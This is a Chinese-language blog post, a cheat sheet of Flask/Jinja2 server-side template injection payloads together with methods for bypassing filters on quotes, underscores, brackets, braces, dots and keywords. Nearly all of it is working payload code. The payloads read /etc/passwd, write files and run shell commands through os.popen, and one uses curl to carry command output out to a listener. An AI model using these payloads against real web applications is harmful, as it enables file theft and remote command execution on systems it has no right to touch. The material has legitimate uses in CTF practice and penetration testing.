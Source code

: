 ```yaml
---
layout:     post
title:      Flask ssti
subtitle:   总结一下ssti常见payload 和 绕过方式
date:       2020-05-20
author:     BY Diego
header-img: img/wenzhang/post-bg-flask-ssti.jpg
catalog: true
tags:
    - Python
    - 命令注入
---
```


# 一、 常见payload

```
__class__ 返回调用的参数类型
__bases__ 返回类型列表
__mro__ 此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
__globals__ 函数会以字典类型返回当前位置的全部全局变量 与 func_globals 等价
__getattribute__ 使用实例访问属性时,调用该方法
__dict__ 查看方法
```

获取object

```python
''.__class__.__mro__[2]  #python2
''.__class__.__mro__[1] #python3
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[8] #针对jinjia2/flask为[9]适用 [10]
```

类似request的还可以利用 url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config

通过self.\_\_dict__ 查看


**获取索引**
```python
''.__class__.__mro__[2].__subclasses__().index(file)
```

**读文件**
python2
```python
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```
python3
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```

**写文件**
```python
().__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('test').write("test")
```

**执行命令**
python3
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
```
python2 (针对catch_warnings模块，python3也可只要知道模块对应位置)
```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen("whoami").read()
```
还有下面方法，直接贴别人图了，（懒）
[![Y5LJMj.png](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)](https://imgchr.com/i/Y5LJMj)

**使用脚本寻找(因环境而异)**
```python
_list =[].__class__.__base__.__subclasses__()
for c in _list:
	try:
		if "open" in c.__init__.__globals__['__builtins__']:
			print(c.__name__,_list.index(c))
	except Exception as e:
		pass
```
读文件
```python
{{[].__class__.__base__.__subclasses__()[对应数].__init__.__globals__['__builtins__'].open("/etc/passwd").read()}}
```
[![Y5LYss.png](https://s1.ax1x.com/2020/05/19/Y5LYss.png)](https://imgchr.com/i/Y5LYss)

命令执行找eval 或者\_\_import__,除去引用os模块还可以用其他可执行命令的模块 commands 等
```python
{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].eval("__import__('os').popen('whoami').read()")}}

{{[].__class__.__base__.__subclasses__()[对应数字].__init__.__globals__['__builtins__'].__import__('os').popen('whoami').read()}}
```


# 二、 绕过

## ① 单双引号过滤
```python
__init__.__globals__['__builtins__']
# 转化成如下形式
__init__.__globals__.__builtins__
```

使用"request.args" 或者 "request.values"
python2 读举例
```python
?name={{().__class__.__bases__[0].__subclasses__()[40](request.args.aa).read()}}&aa=/etc/passwd
```
values 同理 数据为post

还可用set 语句
```python
{%set chr=[].__class__.__base__.__subclasses__()[61].__init__.__globals__.__builtins__.chr%}{{[].__class__.__base__.__subclasses__()[40](chr(47)+chr(102)+chr(108)+chr(97)+chr(103)).read()}}
```

## ② 下划线过滤
**使用"request.args" 或者 "request.values"**
```python
?name={{[][request.args.class][request.args.base][request.args.sub]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```
![YI1Af0.png](https://s1.ax1x.com/2020/05/19/YI1Af0.png)

**args values 被过滤？？**
```python
{{request.headers['X-Forwarded-For']}}
```
![Yo6Wwj.png](https://s1.ax1x.com/2020/05/20/Yo6Wwj.png)

**畸形方法获取_**
```python
[[]|map|string|list][0][20]
```
[![YoDrKH.png](https://s1.ax1x.com/2020/05/20/YoDrKH.png)](https://imgchr.com/i/YoDrKH)


先将
```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```
转化成如下
```python
{{[[]|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][40]('/etc/passwd')|attr('read')()}}
```
再利用join特性将_分离([1,2,3]|join 结果为123)
```python
{{[[]|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
最后_替换[[]|map|string|list][0][20]
```python
{{[[]|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40]('/etc/passwd')|attr('read')()}}
```
![Yor8W8.png](https://s1.ax1x.com/2020/05/20/Yor8W8.png)

## ③ 中括号被过滤

利用该特性a\[2]== a.\_\_getitem__(2)
```python
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(40)('/etc/passwd').read()}}
```

## ④  双大括号过滤
利用 **\{%%}**
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```
相当于盲命令执行，利用curl将执行结果带出来
或者而类似布尔注入

## ⑤ 关键字绕过
**base64编码绕过**
\_\_getattribute__使用实例访问属性时,调用该方法
```python
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

**字符串拼接绕过**
```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__buil'+'tins__']
```

**format函数**
```python
{{'fl{0}g'.format('a')}}
```
![YoyfG6.png](https://s1.ax1x.com/2020/05/20/YoyfG6.png)
## ⑥ . 被过滤
使用原生JinJa2函数|attr()
```python
?name={{()[(request|attr("args"))["class"]][(request|attr("args"))["base"]][(request|attr("args"))["sub"]]()[40]('/etc/passwd').read()}}&class=__class__&base=__base__&sub=__subclasses__
```

另一种形式（其他编码也可base64等）
```python
{{[]["5F5F636C6173735F5F"["decode"]("hex")]["5F5F626173655F5F"["decode"]("hex")]["5F5F737562636C61737365735F5F"["decode"]("hex")]()[40]("/etc/passwd")["72656164"["decode"]("hex")]()}}
```
![YoGozq.png](https://s1.ax1x.com/2020/05/20/YoGozq.png)

变形
```python
{{[]['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[40]('/etc/passwd')['\x72\x65\x61\x64']()}}
```

畸形方法
获取·
```python
{{[1|float|string|list][0][1]}}
```
![Yo0pqI.png](https://s1.ax1x.com/2020/05/20/Yo0pqI.png)

## ⑦ 下划线、引号、中括号 被过滤

利用上述方法进行组合，构造如下payload

```python
?name={{((()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)())|attr(request.args.geti)(40)(request.args.file)).read()}}&class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&file=/etc/passwd
```
![YIwr6A.png](https://s1.ax1x.com/2020/05/19/YIwr6A.png)

# 三、参考

[SSTI: Bypass in a hard place, Fort Knox — ASIS Quals 2019](https://medium.com/@elberandre/ssti-bypass-in-a-hard-place-fort-knox-asis-quals-2019-91bc35a349d3)

[SSTI Bypass 分析](https://www.secpulse.com/archives/115367.html)

[Flask/Jinja2模板注入中的一些绕过姿势](https://p0sec.net/index.php/archives/120/)

[浅析SSTI(python沙盒绕过)](http://flag0.com/2018/11/11/%E6%B5%85%E6%9E%90SSTI-python%E6%B2%99%E7%9B%92%E7%BB%95%E8%BF%87/)
